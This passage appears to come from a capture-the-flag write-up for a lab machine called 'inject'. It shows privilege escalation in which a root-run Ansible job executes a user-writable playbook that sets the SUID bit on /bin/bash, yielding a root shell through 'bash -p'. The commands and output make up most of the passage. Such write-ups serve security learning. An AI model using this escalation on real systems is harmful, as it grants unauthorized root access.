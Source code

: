And at this stage it's just a matter of writing a playbook that gives us a shell
```bash
phil@inject:/opt/automation/tasks$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
phil@inject:/opt/automation/tasks$ ls -la
total 16
drwxrwxr-x 2 root staff 4096 Mar 13 19:04 .
drwxr-xr-x 3 root root  4096 Oct 20 04:23 ..
-rw-r--r-- 1 root root   150 Mar 13 19:04 playbook_1.yml
-rw-rw-r-- 1 phil phil   134 Mar 13 19:04 playbook_2.yml
phil@inject:/opt/automation/tasks$ vim playbook_2.yml
phil@inject:/opt/automation/tasks$ cat playbook_2.yml
- hosts: localhost
  tasks:
  - name: powny
    ansible.builtin.command:
      argv:
        - chmod
        - +s
        - /bin/bash
```

Wait 2 minutes for the job to run, and here we go:
```bash
phil@inject:/opt/automation/tasks$ ls -la
total 12
drwxrwxr-x 2 root staff 4096 Mar 13 19:06 .
drwxr-xr-x 3 root root  4096 Oct 20 04:23 ..
-rw-r--r-- 1 root root   150 Mar 13 19:06 playbook_1.yml
phil@inject:/opt/automation/tasks$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```

Just drop suid for the next guy, and onto the next box
```bash
phil@inject:/opt/automation/tasks$ /bin/bash -p
bash-5.0# chmod -s /bin/bash
bash-5.0# ls -la /bin/bash
-rwxr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```
